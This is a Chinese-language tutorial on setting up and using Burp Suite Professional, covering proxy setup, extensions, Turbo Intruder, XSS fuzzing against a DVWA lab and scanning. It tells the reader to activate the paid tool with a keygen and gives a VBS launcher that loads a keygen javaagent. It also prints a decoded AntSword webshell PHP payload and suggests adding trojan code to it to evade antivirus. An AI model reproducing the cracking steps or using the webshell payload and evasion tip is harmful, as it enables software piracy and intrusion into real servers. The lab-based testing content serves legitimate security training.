

一款用于 Web 应用漏洞测试的工具

# 1 准备

需要 JRE 8 环境

- [JRE 8](https://www.java.com/en/download/manual.jsp)
- [Burp Suite Professional](https://portswigger.net/burp/releases#professional)

# 2 配置

将注册机复制到安装目录


# 3 安装

运行注册机启动 Burp Suite


复制 License 的内容到 Enter license key


选择 Manual activation


复制粘贴注册码


> 完成注册

在安装目录编写 VBS 启动脚本

```vbscript
Dim WshShell, javaPath, burpLoaderKeygen, burpSuiteJar, javaOptions

' 定义路径和参数
javaPath = "C:\Users\sec\AppData\Local\Programs\BurpSuitePro\jre\bin\java.exe"
burpLoaderKeygen = "C:\Users\sec\AppData\Local\Programs\BurpSuitePro\BurpLoaderKeygen.jar"
burpSuiteJar = "C:\Users\sec\AppData\Local\Programs\BurpSuitePro\burpsuite_pro.jar"
javaOptions = "--add-opens=java.desktop/javax.swing=ALL-UNNAMED " & _
           "--add-opens=java.base/java.lang=ALL-UNNAMED " & _
           "--add-opens=java.base/jdk.internal.org.objectweb.asm=ALL-UNNAMED " & _
           "--add-opens=java.base/jdk.internal.org.objectweb.asm.tree=ALL-UNNAMED " & _
           "--add-opens=java.base/jdk.internal.org.objectweb.asm.Opcodes=ALL-UNNAMED"

' 构建命令
Dim command
command = Chr(34) & javaPath & Chr(34) & " " & javaOptions & " -javaagent:" & Chr(34) & burpLoaderKeygen & Chr(34) & " -noverify -jar " & Chr(34) & burpSuiteJar & Chr(34)

' 执行命令
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run command, 0

```

将 Burp Suite Professional 快捷方式的目标修改为启动脚本

浏览器配置 Burp Suite 代理打开以下链接，下载 `cacert.der` 

> http://burpsuite/


双击 `cacert.der` ，安装证书


选择安装到当前用户


选择存储到受信任的根证书颁发机构


# 4 初始化

选择临时项目


使用默认配置启动


更改外观字体大小和主题


设置永久折叠侧板


修改 HTTP 消息显示字体


指定 UTF-8 字符集


配置 [Jython Standalone](https://www.jython.org/) 环境


保存用户设置到安装目录


启动时从文件读取设置


在安装目录创建文件夹 `Extension` 

```
C:\Users\sec\AppData\Local\Programs\BurpSuitePro\Extension
```

> 所有的扩展都要下载到这个目录中

# 5 部署

|                             插件                             |
| :----------------------------------------------------------: |
|            [HaE](https://github.com/gh0stkey/HaE)            |
| [BurpFingerPrint](https://github.com/shuanx/BurpFingerPrint) |
|   [BurpAPIFinder](https://github.com/shuanx/BurpAPIFinder)   |
|          [Knife](https://github.com/bit4woo/knife)           |
|        [OneScan](https://github.com/vaycore/OneScan)         |
|     [RouteVulScan](https://github.com/F6jO/RouteVulScan)     |
| [BurpShiroPassiveScan](https://github.com/pmiaowu/BurpShiroPassiveScan) |
| [BurpFastJsonScan](https://github.com/pmiaowu/BurpFastJsonScan) |
| [WooYun-Payload](https://github.com/boy-hack/wooyun-payload) |
|        [xia SQL](https://github.com/smxiazi/xia_sql)         |
| [Turbo Intruder](https://github.com/portswigger/turbo-intruder) |
|       [BypassPro](https://github.com/0x727/BypassPro)        |
|  [BurpFakeIP](https://github.com/TheKingOfDuck/BurpFakeIP)   |
| [captcha-killer-modified](https://github.com/f0ng/captcha-killer-modified) |
|   [Hackvertor](https://github.com/portswigger/hackvertor)    |
|    [Retire.js](https://github.com/portswigger/retire-js)     |
|     [Autorize](https://github.com/portswigger/autorize)      |
| [AutoRepeater](https://github.com/portswigger/auto-repeater) |
|        [Authz](https://github.com/PortSwigger/authz)         |

# 6 使用

## 6.1 添加扩展

添加BApp商店扩展


配置 [Jython Standalone](https://github.com/jython/jython) 环境


### 6.1.1 添加第三方扩展

将下载好的扩展包放在 D:\software\BurpSuitePro\Extender\ 目录中

在扩展中添加


点击下一个


点击关闭


## 6.2 加载扩展

勾选扩展以加载


## 6.3 Turbo Intruder

选择 `examples/race-multi-endpoint.py`  然后在 `host` 下添加 `x-req:%s` 

Turbo Intruder 攻击示例


其中 GET 和 POST 请求默认各 5 次，可在这里修改



## 6.4 拦截请求


## 6.5 爆破时处理 payload


## 6.6 comparer 对比

## 6.7在本地侦听其它计算机

将代理指定为本机 IP


在其它计算机配置代理

```
192.168.1.102：8080
```

访问 http://burpsuite/ ,安装证书后，可通过 BurpSuite 代理正常访问

## 6.8 捕获蚁剑连接木马的数据包

使用 BurpSuite 对蚁剑连接一句话木马抓包，分析虚拟终端原理

关闭拦截


添加代理

> 需要添加一个目标能访问到的代理


给蚁剑配置代理


在 HTTP 历史记录中查看，用蚁剑连接目标后刷新


> 捕获到了数据包

选中可查看捕获的数据包


### 6.8.1 修改请求数据包

打开拦截


蚁剑连接到目标刷新


> 可以看到，由于开启了拦截，蚁剑无法连接到到目标。

复制编码


粘贴到编码工具中用 URL 解码


复制解码后的文本到文本编辑器查看

```php
@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_get_temp_dir());foreach($oparr as $item) {if(!@is_writable($item)){continue;};$tmdir=$item."/.70f94b11fb2c";@mkdir($tmdir);if(!@file_exists($tmdir)){continue;}$tmdir=realpath($tmdir);@chdir($tmdir);@ini_set("open_basedir", "..");$cntarr=@preg_split("/\\\\|\//",$tmdir);for($i=0;$i<sizeof($cntarr);$i++){@chdir("..");};@ini_set("open_basedir","/");@rmdir($tmdir);break;};};;function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "4435"."fedf3";echo @asenc($output);echo "aac1b5"."3e6fee";}ob_start();try{$D=base64_decode(substr($_POST["v8255f661bbec7"],2));$F=@opendir($D);if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$M=NULL;$L=NULL;while($N=@readdir($F)){$P=$D.$N;$T=@date("Y-m-d H:i:s",@filemtime($P));@$E=substr(base_convert(@fileperms($P),10,8),-4);$R="	".$T."	".@filesize($P)."	".$E."
";if(@is_dir($P))$M.=$N."/".$R;else $L.=$N.$R;}echo $M.$L;@closedir($F);};}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();&v8255f661bbec7=CsL3Zhci93d3cvaHRtbC91cGxvYWQv
```

> 可以在原有代码的基础上加入木马，做免杀。

## 6.9 自动化测试 XSS 漏洞

burp 开启拦截，提交任意参数，发送请求数据包到 intruder 中

> http://centos7-6.local/dvwa/vulnerabilities/xss_r/

清除 payload 位置，选中需要注入的位置添加 payload 位置

```
§123§
```

上传 xss 字典到桌面

> kali 的字典在
>
>  /usr/share/wordlists/wfuzz/Injections/XSS.txt

payload 类型选择为指定文件


在 payload 中加载字典


> 字典不要放在中文路径下
>
> 如果字典中有编码，可能需要关闭 payload 编码，避免二次编码
>
> 最大并发请求：1

点击开始攻击，测试在结果中的响应，查看是否有过滤，转义

在设置中开启检索 - Payloads


再次攻击

查看结果


> 在 P grep 一栏中，参数为 1 的，说明成功执行

## 6.10 漏洞扫描

关闭拦截

在获得的网站数据右键，主动扫描此分支


在目标网站提交多处任意内容，增加扫描范围

> 开始扫描以后可在仪表盘中查看扫描结果
>
> 要提高扫描率可加载相应的插件

安装某些插件时，需要在扩展设置中安装环境


其中扫描某些页面时会有无效信息，占用时间，需要删除


> 以上页面是谷歌验证码

---

参考链接

- [Burp Suite](https://portswigger.net/burp) 
- [Burp Suite documentation](https://portswigger.net/burp/documentation)
